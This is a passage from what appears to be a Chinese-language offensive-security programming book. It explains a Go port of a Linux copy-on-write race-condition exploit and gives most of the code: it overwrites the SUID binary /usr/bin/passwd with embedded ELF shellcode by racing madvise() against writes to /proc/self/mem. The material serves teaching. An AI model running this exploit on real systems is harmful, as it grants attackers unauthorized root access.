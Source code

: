 相反，在 Go 中，你需要遍历切片元素，并手动逐个字节地填充它们。完成后，你发出一个 Linux 系统调用，调用 `mapp()` 函数 ❹，将目标 SUID 文件的内容映射到内存中。关于之前的系统调用，你可以通过查阅 Linux 文档找到 `mapp()` 所需的参数。你可能会注意到，Go 代码调用的是 `syscall.Syscall6()` 而不是 `syscall.Syscall()`。`Syscall6()` 函数用于需要六个输入参数的系统调用，正如 `mapp()` 的情况。最后，代码启动了几个线程，同时调用 `madvise()` 和 `procselfmem()` 函数 ❺。随着竞争条件的产生，你调用 `waitForWrite()` 函数，监视 SUID 文件的变化，通知线程停止，并执行你的恶意代码。

为了完整性，清单 9-14 显示了完整的 Go 移植代码。

```
var mapp uintptr
var signals = make(chan bool, 2)
const SuidBinary = "/usr/bin/passwd"

var sc = []byte{
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
    --snip--
    0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
}

func madvise() {
    for i := 0; i < 1000000; i++ {
        select {
        case <- signals:
            fmt.Println("madvise done")
            return
        default:
            syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(100), syscall.MADV_DONTNEED)
        }
    }
}

func procselfmem(payload []byte) {
    f, err := os.OpenFile("/proc/self/mem", syscall.O_RDWR, 0)
    if err != nil {
        log.Fatal(err)
    }
    for i := 0; i < 1000000; i++ {
        select {
        case <- signals:
            fmt.Println("procselfmem done")
            return
        default:
            syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET))
 f.Write(payload)
        }
    }
}

func waitForWrite() {
    buf := make([]byte, len(sc))
    for {
        f, err := os.Open(SuidBinary)
        if err != nil {
            log.Fatal(err)
        }
        if _, err := f.Read(buf); err != nil {
            log.Fatal(err)
        }
        f.Close()
        if bytes.Compare(buf, sc) == 0 {
            fmt.Printf("%s is overwritten\n", SuidBinary)
            break
        }
        time.Sleep(1*time.Second)
    }
    signals <- true
```